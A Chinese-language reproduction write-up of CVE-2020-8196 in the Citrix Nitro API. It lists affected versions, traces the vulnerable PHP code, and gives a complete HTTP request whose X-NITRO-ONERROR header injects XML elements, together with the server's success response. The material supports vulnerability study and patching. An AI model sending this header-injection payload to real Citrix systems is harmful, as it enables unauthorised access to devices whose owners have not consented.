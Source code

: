 （CVE-2020-8196）Citrix Nitro API 未授权访问漏洞
================================================

一、漏洞简介
------------

Citrix ADC和Citrix NetScaler
Gateway存在一个信息泄露漏洞，该漏洞允许经过身份验证的远程恶意用户获取主机上的敏感信息。通过发送特制请求，攻击者可以利用此漏洞获取敏感信息，然后使用此信息对受影响的系统发起进一步的攻击。

二、漏洞影响
------------

Citrix ADC and Citrix Gateway: \< 13.0-58.30

Citrix ADC and NetScaler Gateway: \< 12.1-57.18

Citrix ADC and NetScaler Gateway: \< 12.0-63.21

Citrix ADC and NetScaler Gateway: \< 11.1-64.14 

NetScaler ADC and NetScaler Gateway: \< 10.5-70.18

Citrix SD-WAN WANOP: \< 11.1.1a

Citrix SD-WAN WANOP: \< 11.0.3d

Citrix SD-WAN WANOP: \< 10.2.7

Citrix Gateway Plug-in for Linux: \<  1.0.0.137

三、复现过程
------------

Nitro API 可以给用户使用，还可以给其他Citrix组件使用

举例，当我们发送

    <?xml version="1.0"?>
    <server></server>

则会返回

    <?xml version="1.0"?>
    <nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>

并且可以在未登陆的使情况进行命令请求

    <?xml version="1.0"?>
    <nitroResponse><errorcode>354</errorcode><message>Invalid username or password</message><severity>ERROR</severity></nitroResponse>

在这里会返回一个错误代码，该代码`0`表示一切正常，`>0`表示失败。API会检查几个HTTP标头，并将它们的值用于事物。其中之一是`X-NITRO-ONERROR`函数中的标头`get_params()`。

    // Setting the header X-NITRO-ONERROR for bulk request
    $nitro_error = $this->get_headervalue($headers, "X-NITRO-ONERROR");
    if (isset($nitro_error))
        $onerror = $this->get_headervalue($headers, "X-NITRO-ONERROR");

    $saveconfig = $this->get_headervalue($headers, "X-NITRO-SAVECONFIG");
    $enablefeature = $this->get_headervalue($headers, "X-NITRO-ENABLEFEATURE");

    // Constructing the params.
    $params = $this->validate_and_post_json_request_params($action, $format, $onerror, $override, $warning, $idempotent, $saveconfig, $enablefeature);
    return $params;

在`validate_and_post_json_request_params()`函数中，我们的控制值`into $onerror`被添加`$json_request_params`并返回为`$params`：

    // Validating and constructing params in nitro payload.
    private function validate_and_post_json_request_params($action, $format, $onerror, $override, $warning, $idempotent, $saveconfig, $enablefeature)
    {
        [..]

        if(isset($onerror))
            $json_request_params["onerror"] = $onerror;

        $json_request_params["httpheaders"] = "yes";

        return $json_request_params;
    }

`$params`然后将变量传递给`get_payload()`函数：

    if (($post_body = $this->get_payload($content, $entity_type, $params, null)) === false)
        return $post_body;

此函数创建"Nitro有效载荷"并返回它，以便可以在内部API调用中使用。该函数`X-NITRO-ONERROR`在返回之前直接将几个参数的值（包括标头）直接粘贴到XML有效负载中：

     // Constructing the nitro payload.
    private function get_payload($content, $entity_type, $params, $objectname) {

        $error = false;
        $request = array();
        $entity_list = $entity_type . "_list";
        if (preg_match("/^</", $content)) {
        libxml_disable_entity_loader(true);
            $req = simplexml_load_string($content);
        libxml_disable_entity_loader(false);
            if ($req == null) {
                header("HTTP/1.1 400 Bad Request");
                $this->print_error_message("Invalid Xml Input");
                return false;
            }

            if (isset($objectname)) {
                if (strcmp($req->getName(), $objectname) != 0) {
                    header("HTTP/1.1 400 Bad Request");
                    $this->print_error_message("Invalid Xml Payload. Mismatch between content-type and payload");
                    return false;
                }
            }

        $xml = "<nitroRequest>\n" . "" . $content . "" .  $this->arrayToXMLString($params,"params") . "</nitroRequest>";
        return $xml;
    }

这意味着我们可以控制此XML文档中放置的元素。这个XML是通过几个函数返回的，最终以一个称为的变量结束，该变量`$post_body`作为该函数的参数给出`nsrest_exec()`。该函数调用的输出发送到该`send_reponse()`函数：

    $response = nsrest_exec($is_gui, $this->request_method, $post_body, $this->username, $this->password, $this->get_client_ip(), $_SERVER["SERVER_ADDR"], $partid);
        if($this->is_direct_invocation)
            return $response["response"];
        $this->send_response($response, $this->request_method, $this->validate_and_get_entity_type($arg_list), $is_gui);

该`nsrest_exec()`函数是Citrix随附的自定义PHP函数，位于一个名为的库文件中`libphp7.so`。该函数或者在成功执行时返回XML对象，或者在执行FALSE失败时返回XML对象。沿线的某个地方FALSE变成，NULL然后NULL变成0。我不知道确切的内部工作原理，`nsrest_exec`但总而言之：无效的`XML X-NITRO-ONERROR`表示一切正常的响应。

例如，此请求包含无效的XML：

    POST /nitro/v1/config/server HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/xml
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://citrix.local/menu/neo
    Content-Type: application/xml
    If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
    DNT: 1
    Connection: close
    Content-Length: 17
    X-NITRO-ONERROR: exit</onerror><idempotent>yes</idempotent><format>xml</format><rawdata>yes</rawdata></params><server></server><params><onerror

    <server></server>

返回值

    HTTP/1.1 201 Created
    Date: Tue, 28 Jan 2020 10:52:07 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Set-Cookie: SESSID=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    X-XSS-Protection: 1; mode=block
    Content-Length: 126
    Connection: close
    Content-Type: application/xml; charset=utf-8

    <?xml version="1.0"?>
    <nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>**

如上所示一切正常，并且身份验证已通过。实际上什么也没有发生，但是使用错误代码就可以来验证API调用是否成功
